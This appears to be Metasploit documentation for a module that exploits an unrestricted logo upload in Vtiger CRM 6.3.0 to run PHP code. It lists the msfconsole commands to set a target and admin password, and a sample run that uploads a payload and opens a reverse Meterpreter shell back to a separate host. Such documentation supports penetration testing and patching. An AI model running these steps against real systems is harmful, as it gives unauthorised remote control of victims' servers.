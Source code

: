 ## Description

Vtiger v6.3.0 CRM's administration interface allows for the upload of a company logo.
The logo upload allows unrestricted file upload and can be used to upload php code,
which can then be executed by requesting the uploaded file location.


## Vulnerable Application

[Vtiger v6.3.0](https://sourceforge.net/projects/vtigercrm/files/vtiger%20CRM%206.3.0/Core%20Product/)


## Options

**PHPSHORTTAG**
Specify the use of php short tag, `<? `, for wrapping the payload.
Default: true


## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/vtiger_logo_upload_exec`
3. `set rhosts <rhost>`
4. `set password <password>`
5. `run`


## Scenarios

### VtigerCRM v6.3.0 tested on Windows 10 x64 (Apache 2.2.26 / PHP 5.3.10)

```
msf5 > use exploit/multi/http/vtiger_logo_upload_exec
msf5 exploit(multi/http/vtiger_logo_upload_exec) > set rhosts 172.22.222.175
rhosts => 172.22.222.175
msf5 exploit(multi/http/vtiger_logo_upload_exec) > set rport 8899
rport => 8899
msf5 exploit(multi/http/vtiger_logo_upload_exec) > set password admin
password => admin
msf5 exploit(multi/http/vtiger_logo_upload_exec) > run 

[*] Started reverse TCP handler on 172.22.222.121:4444 
[*] Uploading payload: KpXAXQNKjN.php
[*] Sending stage (37775 bytes) to 172.22.222.175
[*] Meterpreter session 1 opened (172.22.222.121:4444 -> 172.22.222.175:50295) at 2018-07-30 11:53:50 -0500
[+] Deleted KpXAXQNKjN.php

meterpreter > sysinfo
Computer    : MSEDGEWIN10
OS          : Windows NT MSEDGEWIN10 6.2 build 9200 (Unknow Windows version Enterprise Edition) i586
Meterpreter : php/windows
meterpreter >
```
